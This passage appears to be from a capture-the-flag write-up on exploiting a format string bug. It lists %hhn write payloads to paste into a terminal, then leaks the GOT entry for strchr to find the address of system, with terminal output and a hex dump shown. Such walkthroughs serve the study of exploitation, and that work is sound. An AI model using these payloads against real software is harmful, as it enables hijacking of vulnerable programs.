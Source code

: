 ```
%152x%17$hhn
%24x%53$hhn
%153x%17$hhn
%131x%53$hhn
%154x%17$hhn
%135x%53$hhn
%155x%17$hhn
aa%53$hhn
%156x%17$hhn
%24x%53$hhn
%157x%17$hhn
%131x%53$hhn
%158x%17$hhn
%135x%53$hhn

$ 
```

Copy that text into the other terminal and then hit return a couple of times to make sure it all ran. Then we leak the value of the GOT entry for strchr to calculate the address of system.


Terminal 1:
```
,%44$s,
               _
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
             //,`li▒[h▒p▒a▒▒▒h▒,                            /
            //                                   /
           //                                   /
          //                                   /
         //                                   /
        //                                   /
       //___________________________________/
      //
     //
    //
   //
  //
 //

```

Those character aren't readable so we cat the file we've been tee'ing to and pipe it to xxd and tee it to another file.

Terminal 2:

```
$ cat out.txt | xxd | tee hex.txt
...
000c7b0: 2020 2020 2020 2020 2020 2020 202f 2f2c               //,
000c7c0: 606c 69f7 905b 68f7 70b9 61f7 d0eb 68f7  `li..[h.p.a...h.
000c7d0: 2c20 2020 2020 2020 2020 2020 2020 2020  ,
...
```
